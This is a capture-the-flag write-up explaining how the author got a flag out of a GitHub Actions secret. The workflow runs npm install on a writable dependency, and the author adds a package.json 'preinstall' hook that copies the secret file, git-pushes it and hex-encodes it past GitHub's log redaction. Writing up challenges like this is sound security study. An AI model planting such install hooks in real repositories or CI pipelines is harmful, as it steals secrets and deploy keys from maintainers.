

# very-sus-organization

The challenge server invites participant into an organization and gives permission to two repositories:

- suspicious-random-number-generator-repo-(username) (RW)
- sus-image-generator-repo-(username) (Read-only)

The latter has the flag stored in its GitHub Actions secrets:

```yaml
      - name: Set up SSH
        env:
          ACTIONS_DEPLOY_KEY: ${{ secrets.DEPENDENCY_DEPLOY_KEY }}
          FLAG: ${{ secrets.FLAG }}
        run: |
          pwd
          mkdir -p ~/.ssh
          echo "$ACTIONS_DEPLOY_KEY" > ~/.ssh/id_rsa
          echo "$FLAG" > ~/flag.txt
          chmod 600 ~/.ssh/id_rsa
          ssh-keyscan github.com >> ~/.ssh/known_hosts
          

      - name: Install dependencies
        run: |
          npm install
```

The [workflow above](./challenge/sus-image-generator-repo/.github/workflows/check-build.yml) is triggered when
a comment with content "/run-build" is registered to any issue.

`npm install` is ran in the workflow and it has the writable repo above as dependency, like below.

```json
    "dependencies": {
        "express": "^4.21.1",
        "suspicious-random-number-generator": "git+ssh://git@github.com:VerySusOrganization/suspicious-random-number-generator-repo-(username).git"
    }
```

`npm` supports running scripts in each step of installation e.g., `preinstall` and `postinstall` field in `script` field of each package.json files. Since directly printing flag makes the output automatically redacted by GitHub, I modified package.json of the writable repo as below, and registered /run-build comment.

```json
{
  "name": "suspicious-random-number-generator",
  "version": "1.0.0",
  "main": "index.js",
  "author": "paultisaw",
  "description": "Yet another suspicious random number generator",
    "scripts": {
        "preinstall": "cp ~/flag.txt .; git add flag.txt; echo 'fatal: empty ident name (for <runner'\"`xxd -p flag.txt`\"'@fv-az1499-929.ayn4ow52z0yu3j5zha0lqlp1yf.dx.internal.cloudapp.net>) not allowed' >&2; git commit -m flag --author 'a <a@a.com>'; git push"
    }
}
```

Then flag is printed in GitHub action output.



Flag:

```text

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣴⣆⣠⣤⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣻⣿⣯⣘⠹⣧⣤⡀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠛⠿⢿⣿⣷⣾⣯⠉⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣾⣿⠜⣿⡍⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣸⣿⠁⠀⠘⣿⣆⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⣿⡟⠃⡄⠀⠘⢿⣆⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣾⣿⣁⣋⣈ ⣤⣮⣿⣧⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⣿⡿⠛⠉⠙⠛⠛⠛⠛⠻⢿⣿⣷⣤⡀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⣼⣿⠋⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⠈⢻⣿⣿⡄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣸⣿⡏⠀⠀⠀⣠⣶⣾⣿⣿⣿⠿⠿⠿⢿⣿⣿⣿⣄⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣿⣿⠁⠀⠀⢰⣿⣿⣯⠁⠀⠀⠀⠀⠀⠀⠀⠈⠙⢿⣷⡄⠀
⠀⠀⣀⣤⣴⣶⣶⣿⡟⠀⠀⠀⢸⣿⣿⣿⣆⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣷⠀
⠀⢰⣿⡟⠋⠉⣹⣿⡇⠀⠀⠀⠘⣿⣿⣿⣿⣷⣦⣤⣤⣤⣶⣶⣶⣶⣿⣿⣿⠀
⠀⢸⣿⡇⠀⠀⣿⣿⡇⠀⠀⠀⠀⠹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠃⠀
⠀⣸⣿⡇⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠉⠻⠿⣿⣿⣿⣿⡿⠿⠿⠛⢻⣿⡇⠀⠀
⠀⣿⣿⠁⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣧⠀⠀
⠀⣿⣿⠀⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⠀⠀
⠀⣿⣿⠀⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⠀⠀
⠀⢿⣿⡆⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⡇⠀⠀
⠀⠸⣿⣧⡀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⠃⠀⠀
⠀⠀⠛⢿⣿⣿⣿⣿⣇⠀⠀⠀⠀⠀⣰⣿⣿⣷⣶⣶⣶⣶⠶⠀⢠⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣿⣿⠀⠀⠀⠀⠀⣿⣿⡇⠀⣽⣿⡏⠁⠀⠀⢸⣿⡇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣿⣿⠀⠀⠀⠀⠀⣿⣿⡇⠀⢹⣿⡆⠀⠀⠀⣸⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⢿⣿⣦⣄⣀⣠⣴⣿⣿⠁⠀⠈⠻⣿⣿⣿⣿⡿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠻⠿⠿⠿⠿⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀

        🎉 CONGRATULATIONS 🎉
    EPFL{ThIS_was_inD33d_very_Sus}
```
